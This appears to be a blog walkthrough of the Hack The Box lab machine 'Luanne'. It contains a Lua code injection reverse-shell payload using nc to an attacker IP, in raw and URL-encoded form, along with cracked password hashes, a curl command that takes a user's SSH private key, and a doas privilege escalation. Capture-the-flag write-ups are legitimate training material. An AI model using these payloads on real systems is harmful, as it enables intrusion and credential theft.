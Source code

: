```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://i.ibb.co/xXfkxYT/image.png)


### Let's start with the Web Page:

![](https://i.ibb.co/1GYkMLC/image.png)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://i.ibb.co/87bbn0b/image.png)


> #### I used ffuf for fuzzing luanne.htb/


![](https://i.ibb.co/bdWykc8/image.png)



* We got robots.txt

![](https://i.ibb.co/mTQCjQq/image.png)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://i.ibb.co/R2pH0fq/image.png)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://i.ibb.co/cJXyHr9/image.png)


> #### Use city=list to list available cities 

*okay, Thanks*


![]()

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![]()

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![]()

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![]()

**we got iamthebest**

## Enumerate luanne.


![]()

> * We got user r.michaels 

**Let's check the netstate** 

![]()

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![]()


![]()

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![]()

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![]()

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![]()


## SSH connecting.


![]()

![]()

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![]()

> * we access to /webapi but no thing useful.


![]()

> **we access to /www and got another webapi_user.**
 
![]()

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![]()

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![]()

# RooTed



